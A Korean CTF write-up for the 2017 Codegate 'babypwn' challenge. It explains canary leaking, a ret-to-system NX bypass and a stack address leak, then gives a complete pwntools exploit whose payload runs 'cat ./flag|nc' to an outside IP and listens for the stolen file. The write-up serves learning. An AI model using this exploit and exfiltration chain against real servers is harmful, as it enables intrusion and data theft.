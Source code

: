 ## Babypwn 50

2017년 Codegate 예선에 등장한 문제로 문제이름처럼 난이도 자체는 어렵지 않다고 생각합니다.  
먼저 실행파일의 형태와 어떤 보호기법이 적용됬는지 확인해 봅시다.

₩file babypwn`과 ₩checksec babypwn` 이 2개의 명령어를 써서 확인할 수 있습니다.

```
babypwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=79d683df4838066af61f58fc7025deb99e6bab3d, stripped
```

```
[*] '/home/knight/ctf/exploit/babypwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

일단 파일은 리눅스 실행파일인 ELF 파일이고 strip 되어있어 main함수를 찾는게 힘들다는 것을 알았습니다.  
반대로 보호 기법은 특별한 보호기법이 없네요. Canary는 메모리 릭해서 알아내면 될 것 같고 NX는 ROP로 피해 보겠습니다. 물론 ASLR도 잊으면 안되죠.

먼저 이 babypwn이라는 파일이 서버 파일이라는 것을 알아야 합니다. 이는 평소 사용자 입력을 `scanf`등으로 받아오는 것과는 다르게 ₩recv` 함수로 받아들이게 되고 recv는 마지막에 `\x0a`라는 개행문자가 들어오게 됩니다. 이를 이용해서 Canary를 읽어 올수 있습니다.

Buffer은 40바이트인데 총 읽어들일수 있는 바이트는 100바이트 입니다. 즉 오버플로우가 가능하게 되죠. 그러나 40 바이트 바로뒤에는 Canary가 자리잡고 있기 때문에 바로 오버플로우를 시도하는 것은 불가능합니다. 먼저 Canary를 알아내야 하죠. 원래 40바이트의 버퍼는 0으로 초기화 되어 있고 Canary같은 경우에도 가장 마지막 바이트가 `\x00`이라서 출력을 할 때 Canary가 같이 출력되는 것을 막아줍니다. 그러나 만약 40바이트를 입력하게 되면 어떻게 될까요? 아까 설명드렸듯이 recv함수는 사용자 입력뒤에 `\x0a`를 자동으로 추가해줍니다. 그러니 40바이트를 입력하면 버퍼가 다차고 Canary의 가장 마지막 `\x00`역시 `\x0a`로 대체되기 때문에 Canary가 출력되게 되고 버퍼 오버플로우가 가능해지게 됩니다.  이렇게 Canary를 회피하는 방법을 알아봤습니다.

이제 NX를 회피해 봅시다. IDA와 같은 디버거를 통해서 존재하는 함수들을 모구 확인해보면 system함수가 Code 영역에 이미 링크되어 있는 것을 확인할 수 있습니다. 만약 ret주소를 스택이 아닌 이 시스템 함수로 우회한다면 NX를 간단하게 회피할 수 있을 것입니다. 32비트 컴퓨터에서 함수의 인자를 넘기는 방법은 `[함수 주소][AAAA][인자]` 이런 식으로 호출하면 됩니다. 만약 시스템 함수를 호출하여 쉘을 얻으려 한다면 `[System Addr][AAAA]["/bin/bash" Addr]` 같은 방법으로 호출하면 되는 것이지요.

System 함수는 코드영역에 링크되어 있어서 ASLR로도 변하지 않기 때문에 걱정할 필요하 없습니다. 이제 인자의 주소값을 찾는 것이 문제가 되는 것이지요. `/bin/bash`를 libc에서도 찾을 수 있지만 그럼 libc의 주소값을 찾아야 하기 때문에 이번에는 100바이트의 입력가능한 버퍼중 일부에 리눅스 커맨드를 넣고 해당 스택 주소를 넣기로 하겠습니다.  스택 주소를 찾는 방법 역시 Canary를 찾은 방법과 같이 메모리 릭으로 가능하므로 설명은 생략하도록 하겠습니다. 이런 식으로 쉘 스크립트를 작성하게되면 쉽게 Flag를 얻을 수 있습니다.

앞서 말씀드렸듯 이는 서버 프로그램으로써 쉘을 클라이언트 측에서 얻기 위해서는 입력과 출력을 서버 소켓으로 리다이렉트를 해야합니다. 그러나 이는 100바이트 내에서 ROP으로 구현하기 까다로운 관계로 저는 flag 파일을 읽어서 nc 로 해당 내용을 클라이언트에게 돌려주도록 스크립트를 짰습니다.  물론 그러려면 클라이언트에서도 서버를 열어야 하므로 서버를 여는 부분도 포함했습니다.

최종 스크립트는 다음과 같습니다.
```
from pwn import *
import binascii
import socket
hexy = lambda x: int(binascii.hexlify(x), 16)

proc = remote("localhost", 8181)
proc.recvuntil('>')
proc.sendline('1')
proc.recvuntil(':')
proc.sendline("a"*40)
sample = proc.recvuntil('>')
canary = sample.split('\n')[1].lstrip('a'*39)
canary = hexy(canary[::-1])<<8
proc.sendline('1')
proc.recvuntil(':')
proc.sendline('aaaa'*12+'aaa')
buf = proc.recvuntil('>').split('\n')[1]
buf = buf[:4][::-1]
buf = hexy(buf) - 300
proc.sendline('1')
proc.recvuntil(':')
payload = p64(hexy("ls -al"[::-1]))
proc.sendline(p32(0x8048b86)*12+"aaaaaaaa"+p32(0x08048620)+"aaaa"+p64(buf)+p32(hexy('cat '[::-1]))+p32(hexy("./fl"[::-1]))+p32(hexy("ag|n"[::-1]))+p32(hexy("c 19"[::-1]))+p32(hexy("2.16"[::-1]))+p32(hexy("8.0."[::-1]))+p32(hexy("2 3"[::-1])))
proc.recvuntil('>')
proc.sendline('2')
proc.recvuntil(':')
proc.sendline("a"*40+p64(canary))
proc.recvuntil('>')
proc.sendline('3')

print proc.recv(1024)
socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.bind(("192.168.0.2", 3))
socket.listen(5)
client, addr = socket.accept()
print client.recv(1024)
```

이해가 되지 않거나 틀린부분은 메일을 보내주세요.
